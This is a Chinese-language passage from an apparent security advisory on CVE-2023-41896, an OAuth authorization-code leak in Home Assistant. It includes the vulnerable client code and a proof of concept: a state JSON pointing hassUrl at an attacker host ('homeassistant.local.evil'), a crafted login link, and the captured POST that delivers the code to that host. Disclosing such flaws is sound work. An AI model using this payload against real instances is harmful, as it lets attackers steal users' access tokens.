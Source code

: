 ## 八、授权码泄露:CVE-2023-41896/GHSL-2023-163

在 OAuth2 认证请求中，除了 client\_id 和 redirect\_uri 参数外，还可以包括一个 state 参数。根据 Home Assistant 的官方文档，这个参数用于存储用户正在尝试认证的实例的 URL。用户的实例 URL 随后会被添加到重定向的 URI 中。

在 Home Assistant 中，state 参数不是一个不透明、随机的值，这与其在 OAuth2 流程中的建议不符。相反，它是一个包含 hassUrl 和 clientId 的 Base64 编码的 JSON 对象。

在 Web 登录流程中，客户端 JavaScript 代码会使用 hassUrl 的值来发起一个 POST 请求。这个请求包含了从 Home Assistant 获得的有效的授权码。

为了解析 URL 中的查询字符串并解码认证状态，你可以查看源代码。这段代码还会使用 fetchToken 函数向由 hassUrl 属性指定的服务器发送一个 POST 请求。

```bash
const query = parseQuery(location.search.substr(1));
// Check if we got redirected here from authorize page
if ("auth_callback" in query) {
  // Restore state
  const state = decodeOAuthState(query.state);
  data = await fetchToken(state.hassUrl, state.clientId, query.code);
  if (options.saveTokens) {
    options.saveTokens(data);
  }
}
```

如果一个攻击者诱骗一个受害者通过一个恶意的链接登录 Home Assistant，他们可能会窃取授权码。这将使他们能够使用这些授权码从 Home Assistant 获取有效的刷新和访问令牌。

### Poc

攻击者可以使用他们自己的恶意服务器作为 state json 中的 hassUrl 属性：

一旦这个 json 对象被 base64 编码，它就可以用来构造一个恶意的链接：

```bash
{
  "hassUrl":"http://homeassistant.local.evil:8123/",
  "clientId":"http://homeassistant.local:8123/"
}
```

一旦 state json 对象被 base64 编码为示例字符串，它可以用来构造一个恶意的链接。

```bash
http://homeassistant.local:8123/auth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fhomeassistant.local%3A8123%2F%3Fauth_callback%3D
```

请注意，在这种情况下，尽管 host、client\_id 和 redirect\_uri 的值都是合法且符合用户的预期，但这仍然可能构成安全风险。

受害者会看到一个登录表单，上面附带消息：你即将给予[http://homeassistant.local:8123/对你的Home](http://homeassistant.local:8123/%E5%AF%B9%E4%BD%A0%E7%9A%84Home) Assistant 实例的访问权限。请注意，这是用户的服务器实例，所以没有任何可疑之处。

一旦用户登录，他们获得的授权码就会被发送回攻击者。

```bash
POST /auth/token HTTP/1.1
Host: homeassistant.local.evil:8123
Content-Length: [..]
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOdg7W5BtZriAqa3J
Accept: */*
Origin: http://homeassistant.local:8123/
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryOdg7W5BtZriAqa3J
```
